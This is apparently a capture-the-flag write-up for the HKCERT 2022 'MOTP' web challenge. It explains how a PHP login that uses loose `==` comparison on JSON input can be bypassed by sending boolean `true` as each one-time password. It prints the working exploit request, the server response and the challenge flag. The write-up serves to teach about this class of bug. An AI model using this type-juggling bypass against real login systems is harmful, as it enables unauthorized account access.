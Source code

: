 # MOTP **(火炭 OTP)**

> Tag: web, 150 points
>
> Web: <http://chal.hkcert22.pwnable.hk:28305/>
> 
> Attachment: [motp_1ea0c63eb5566bc147f61f1cdf594984.zip](https://file.hkcert22.pwnable.hk/motp_1ea0c63eb5566bc147f61f1cdf594984.zip)

## Challenge Description

The [challenge website](http://chal.hkcert22.pwnable.hk:28305) contains a form
which asks for the username, password and three one-time passwords (OTP).
Clicking "Sign In" sends a POST request to `/login.php`, which then responds with
which field is incorrect.

![The result of a form submission.](./motp-description.png)

The goal is to enter the correct username and password, and bypass the OTP checks.

## Code Analysis

From the source code of `login.php`, we can see that:
1. the form data is loaded into `$_DATA` by `jsonhandler.php`,
1. the username and password are checked against `$USER_DB`,
1. the OTPs are verified with randomly generated keys using `Google2FA`, and
1. the flag is revealed if all checks pass.

It is obvious that the username and password are `admin`.

`Google2FA` implements the time-based OTP algorithm,
possibly capatible with Google's Autheticator app.

## Failed Attempt

Since the interval between key regeneration is 30 seconds and the OTP length is 6,
we thought it might be possible to brute-force all three OTP under the time constraint.

However, although the three OTP can be sequentially brute-forced, this was proven to be
difficult as 30 seconds is not enough to pull this off.

## Finding the Bug
### JSON Input

We then noticed that the form data `$_DATA` comes from `json_decode`,
and that there are no validation on the input JSON.

```php
$_DATA = json_decode(file_get_contents('php://input'), true);
```

Since PHP is a loosely typed language, we can send data with a type other than string.
We can therefore control the type of fields in `$_DATA`.

### Loosely Typed Equality

We further found that OTP is compared using a `==` operator:

```php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    // ...
    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)
            return true;

    return false;
}
```

which is, [indeed](https://www.php.net/manual/en/language.operators.comparison.php),
an "equal" operator similar to JavaScript.
Instead of the identical (`===`) operator, which returns `false` if the operand types differ,
the equal (`==`) operator first performs some type juggling.

In particular, if one of the operand is of `bool` type, `==` will convert the other to
`bool` type as well before comparison.
So if we set `$key` to `true`, `self::oath_hotp($binarySeed, $ts) == $key` will evaluate to
`true` as the left operand is always [truthy](https://www.php.net/manual/en/language.types.boolean.php#language.types.boolean.casting).

## Solution

We therefore set the three OTP to be `true` and send the following HTTP request:

```http
POST /login.php HTTP/1.1
Host: chal.hkcert22.pwnable.hk:28305
Content-Length: 109

{
    "username":"admin",
    "password":"admin",
    "otp1":true,
    "otp2":true,
    "otp3":true
}
```

The response lastly contains the flag:

```http
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 10:34:10 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/8.1.12
Content-Length: 86
Content-Type: application/json

{"message":"Congrats, here is your flag: hkcert22{mistakes-off-the-page}","data":null}
```

## Flag
```
hkcert22{mistakes-off-the-page}
```
